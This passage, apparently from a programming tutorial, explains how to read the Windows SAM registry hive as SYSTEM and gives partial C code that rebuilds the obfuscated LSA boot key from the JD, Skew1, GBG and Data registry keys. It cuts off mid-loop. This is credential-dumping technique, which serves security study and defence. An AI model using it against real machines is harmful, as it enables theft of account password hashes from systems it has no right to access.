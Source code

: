 ***
**Part 0: Accessing the SAM Hive**

The SAM database is stored in the `HKLM:\SAM` registry hive. Ordinary accounts cannot read it, not even administrator accounts. So we'll have to start by elevating to the `NT AUTHORITY\SYSTEM` account. There's a few different ways to do this, such as creating a shadow volume copy, using `reg save` to create a new local copy, or copying the `NT AUTHORITY\SYSTEM` token from a privileged process. To simplify things, we'll assume our program is going to be run from the command line as `NT AUTHORITY\SYSTEM`, so by running `Start-Win32ChildProcess powershell.exe -User S-1-5-18` as an administrator we can run and debug our program.

***
**Part I: Reconstructing the LSA System Key**

The LSA system key is used to encrypt the password encryption key, other entries in the SECURITY hive and other LSA secrets. The key is obfuscated, with its byte order rearranged before being broken into four parts, each of which is stored in a different location in the `HKLM:\SYSTEM` registry hive. 

We'll begin by defining the four registry keys where the obfuscated key is stored, and some variables to help us store and process the `ClassName` of each registry key:
```c
//Registry key paths where the obscured system key is stored
LPCWSTR paths[] = { L"SYSTEM\\CurrentControlSet\\Control\\Lsa\\JD", 
	L"SYSTEM\\CurrentControlSet\\Control\\Lsa\\Skew1", 
	L"SYSTEM\\CurrentControlSet\\Control\\Lsa\\GBG", 
	L"SYSTEM\\CurrentControlSet\\Control\\Lsa\\Data" };

//RegQuery variables to store the classname
HKEY key;
LSTATUS status;
wchar_t classname[256];
unsigned char convclassname[256];
DWORD cnamelen = 256;

//Variables to convert wchar to byte
wchar_t byteConv[3];
byteConv[2] = 0xFF;

//Variables to handle the system key
unsigned char syskey[256];
DWORD index = 0;
decodedBootKey bootkey;
```

Next, we'll create a for loop that goes through each registry key, retrieves the `ClassName` property, and appends it to the reconstructed system key. This is slightly complicated by the fact that `ClassName` returns an array of wide chars containing the hex value of the encrypted system key, so we have to convert each wide char into a number using `wcstoul`, and then cast it to an unsigned char. For example, the class name will be returned as something like "d015", which in UTF-16 is the hex bytes `0x64 0x00 0x30 0x00 0x31 0x00 0x35 0x00`, while what we want is the plain hex bytes `0xD0 0x15`. 

```c
//Reassemble the split bootkey value from the 4 different registry values
for (int i = 0; i < 4; i++) {

	//Retrieve the classname property
	status = RegOpenKeyExW(HKEY_LOCAL_MACHINE, paths[i], 0, KEY_ALL_ACCESS, &key);
	status = RegQueryInfoKeyW(key, classname, &cnamelen, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL );
	
	//Convert the class name, stored as wchars, into hex values
	for (DWORD i = 0; i < cnamelen; i+=2)
	{
		byteConv[0] = classname[i];
```